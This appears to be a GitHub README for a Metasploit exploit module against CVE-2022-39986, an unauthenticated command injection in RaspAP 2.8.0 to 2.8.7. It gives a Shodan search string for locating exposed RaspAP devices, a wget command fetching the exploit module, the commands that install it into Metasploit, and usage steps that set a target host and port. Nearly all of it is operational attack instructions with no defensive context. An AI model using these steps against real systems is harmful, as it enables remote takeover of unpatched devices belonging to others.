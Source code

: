 # CVE-2022-39986
![](https://img.shields.io/static/v1?label=Product&message=RaspAP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.8.0%20thru%202.8.7&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20Injection&color=red)

- Shodan dork:
```
"RaspAP"
```

### Install
```
wget https://github.com/getdrive/PoC/blob/main/2022/RaspAp_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rb /usr/share/metasploit-framework/modules/exploits/unix/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check
```
